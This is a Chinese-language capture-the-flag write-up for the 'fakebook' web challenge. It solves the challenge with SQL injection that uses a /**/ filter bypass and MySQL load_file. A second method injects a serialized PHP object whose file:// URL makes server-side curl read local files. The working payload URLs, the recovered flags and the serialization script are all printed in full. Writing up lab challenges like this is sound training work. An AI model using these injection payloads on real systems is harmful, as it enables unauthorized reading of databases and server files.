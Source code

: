 # fakebook

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=c500b9d0-d809-4879-a7a8-5b12da735c57_2)

我卡在了这道题的第一步……场景打开是普通的注册和登录界面。

![fakebook](../../images/fakebook.png)

很离谱的是我不知道怎么注册……注册界面要求填写blog，当我随便填个名字时却显示无效。后来我才知道要遵循“www.xxx.com”的形式。

![content](../../images/content.png)

点进注册的blog发现显示不知道为啥不完全。URL也很可疑，使用get传参的形式。

- http://61.147.171.105:54899/view.php?no=1

更改参数no的值发现有回显，得到了当前网站运行路径。

![path](../../images/runPath.png)

输入引号有报查询错误，考虑URL SQL注入。放到burpsuite的repeater来找有效payload。先试一下union select，正确的列数到时候一起找，就懒得order by了。

- /view.php?no=2+union+select+1--+

可惜没有成功，有过滤。只传union报查询错误，只传select也报查询错误，但是在同时传union select时会提示no hack，于是判断过滤内容是union select。这里只需要找个能在不输入空格的情况下又能让系统识别出union select的方法，比如用多行注释/**/。

- /view.php?no=2+union/**/select+1,2,3,4--+

最后在四列时没有报错。按照一般流程就该爆库爆表爆字段了，但是有没有啥捷径呢？通过搜索可得MySQL有个叫load_file的方法，可以读取一个文件的内容并将其作为字符串返回。这个方法当然比常规的方法简单很多，就是有条件限制：

- ### 条件
  > 必须有权限读取并且文件必须完全可读。
  > 读取文件必须在服务器上
  > 必须指定文件完整的路径
  > 读取文件必须小于max_allowed_packet

后三条应该满足，flag没多大且肯定在服务器上，我们也有了当前网站绝对路径所以可以猜一下flag的路径。第一条可以用一条语句确定当前用户用没有读取权限。

- /view.php?no=1+and+(select+count(*)+from+mysql.user)>0--+

如果页面回显正常就证明有权限，报错就说明没有，应该是管理员对数据库账户降权了。

或者也可以用这个办法：

- /view.php?no=2+union/**/select+1,user(),3,4--+

返回结果是root@localhost，那就是有权限了。条件基本都满足，可以猜flag路径了。猜flag就在当前目录下，最后发现/var/www/html/flag.php是正确路径。

- /view.php?no=2+union/**/select+1,load_file("/var/www/html/flag.php"),3,4--+

flag在源代码中。最后看官方writeup还发现有反序列化和SSRF的解法。我太菜了就先用这种解法吧。ʕ •ᴥ•ʔ

## Flag
  > flag{c1e552fdf77049fabf65168f22f7aeab}

跑去另一个靶场又看到了这道题，那这回就学习一下另一种解法吧。

[题目地址](https://buuoj.cn/challenges#[%E7%BD%91%E9%BC%8E%E6%9D%AF%202018]Fakebook)

另一种思路，进入网站没有头绪就扫目录。这题比较简单，直接看robots.txt就能找到源代码目录/user.php.bak。

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

一堆和[curl](https://www.php.net/manual/zh/ref.curl.php)相关的函数。了解一下就好了，函数先是用curl_init()初始化curl会话，得到一个句柄；接着curl_setopt用刚刚的句柄设置传输选项；然后curl_exec执行会话，curl_getinfo获取连接资源的信息；最后curl_close关闭会话。没啥问题，问题在于curl的网页由this->blog决定。如果我们能更改这个blog，就能任意读取文件。先按照正常步骤爆一些数据库内容。

- http://6123dc33-7368-471d-9d43-fa9944974fd8.node4.buuoj.cn:81/view.php?no=2+union/**/select+1,group_concat(table_name),3,4%20from%20information_schema.tables%20where%20table_schema=database()--+

得到表名users。

- http://6123dc33-7368-471d-9d43-fa9944974fd8.node4.buuoj.cn:81/view.php?no=2+union/**/select+1,group_concat(column_name),3,4%20from%20information_schema.columns%20where%20table_name=%27users%27--+

得到列名no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS。no应该是id，username和passwd没啥看的，data是啥？看看。

- http://6123dc33-7368-471d-9d43-fa9944974fd8.node4.buuoj.cn:81/view.php?no=2+union/**/select+1,group_concat(no,'~',username,'~',passwd,'~',data),3,4 from fakebook.users--+
  > 1~a~1f40fc92da241694750979ee6cf582f2d5d7d28e18335de05abc54d0560e0f5302860c652bf08d560252aa5e74210546f369fbbbce8c12cfc7957b2652fe9a75~O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:1;s:4:"blog";s:9:"www.a.com";}

联合注入可以参考[这里](https://blog.csdn.net/kingdring/article/details/109685593),注意字段名例如username这些不需要加引号，中间的～符号单纯用来分割查询出来的字段，换个别的喜欢的也行。fakebook.users也不需要引号。按照分割比对一下，data正是格式化字符串内容。构造payload把flag文件路径写进去就行了。

```php
<?php
class UserInfo
{
    public $name = "a";
    public $age = 1;
    public $blog = "file:///var/www/html/flag.php";

}
$res = new UserInfo();
echo serialize($res);
```

- http://6123dc33-7368-471d-9d43-fa9944974fd8.node4.buuoj.cn:81/view.php?no=2+union/**/select+1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' from fakebook.users--+

在4处写入是因为这里对应了data字段，此处注入参考[这道题](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/BabySQli.md)。执行后查看源代码，能发现这样一句话。

```html
<iframe width='100%' height='10em' src='data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3tiOGVhYTJkYi1lMjI4LTQxOTktOTBmZS00ZjZhYjJjMzE4MzZ9IjsNCmV4aXQoMCk7DQo='>
```

base64解密后就是flag。

## Flag
> flag{b8eaa2db-e228-4199-90fe-4f6ab2c31836}
